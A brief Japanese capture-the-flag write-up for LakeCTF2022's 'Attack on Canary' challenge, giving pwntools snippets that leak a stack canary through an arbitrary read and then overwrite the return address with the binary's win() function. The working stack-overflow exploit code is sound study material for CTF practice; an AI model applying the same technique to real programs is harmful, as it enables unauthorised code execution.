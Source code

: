 # Attack on Canary - LakeCTF2022

この問題はAARでCanaryをリークして、リターンアドレスを`win()`関数で書き換えることが目的。

## 解法
入力から88文字/ 8byte = 11番目にCanaryの値があるので、次のようにリークする。

```python
def leak_canary() -> bytes:
    io.sendlineafter("command: ", "0")
    io.sendlineafter("read: ", "11")
    return io.recvn(8)

canary = leak_canary()
```

あとは、リターンアドレスを書き換える。
```python
write(b"120", b"A"*88+canary+p64(0)+p64(e.sym["win"]))
```
